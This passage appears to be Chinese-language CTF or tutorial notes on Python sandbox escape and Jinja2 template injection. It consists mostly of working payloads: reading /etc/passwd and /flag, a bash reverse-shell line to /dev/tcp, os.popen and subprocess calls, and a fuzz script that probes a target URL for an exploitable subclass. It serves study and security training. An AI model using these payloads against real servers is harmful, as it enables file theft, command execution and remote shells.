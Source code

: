 - 找到重载过的 `__init__` 类，在获取初始化属性后，带 `wrapper` 的说明没有重载，寻找不带 `warpper` 的；也可以利用 `.index()`去找 `file`, `warnings.catch_warnings`

```python
''.__class__.__mro__[2].__subclasses__()[99].__init__
<slot wrapper '__init__' of 'object' objects>

''.__class__.__mro__[2].__subclasses__()[59].__init__
<unbound method WarningMessage.__init__>
```

- 查看其引用 `__builtins__`

```python
''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
```

- 这里会返回 dict 类型，寻找 keys 中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```python
''.__class__.__mro__[-1].__subclasses__()[138].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()
```

### 常用的目标函数
```python
file
subprocess.Popen
os.popen
exec
eval
```

### 常见的中间对象
```python
catch_warnings.__init__.func_globals.linecache.os.popen('bash -i >& /dev/tcp/127.0.0.1/233 0>&1')
lipsum.__globals__.__builtins__.open("/flag").read()
linecache.os.system('ls')
```

### fuzz可利用类脚本
- 例如对 subprocess.Popen 可以构造如下 fuzz 脚本

```python
import requests

url = ""

index = 0
for i in range(100, 1000):
    #print i
    payload = "{{''.__class__.__mro__[-1].__subclasses__()[%d]}}" % (i)
    params = {
        "search": payload
    }
    #print(params)
    req = requests.get(url,params=params)
    #print(req.text)
    if "subprocess.Popen" in req.text:
        index = i
        break


print("index of subprocess.Popen:" + str(index))
print("payload:{{''.__class__.__mro__[2].__subclasses__()[%d]('ls',shell=True,stdout=-1).communicate()[0].strip()}}" % i)
```
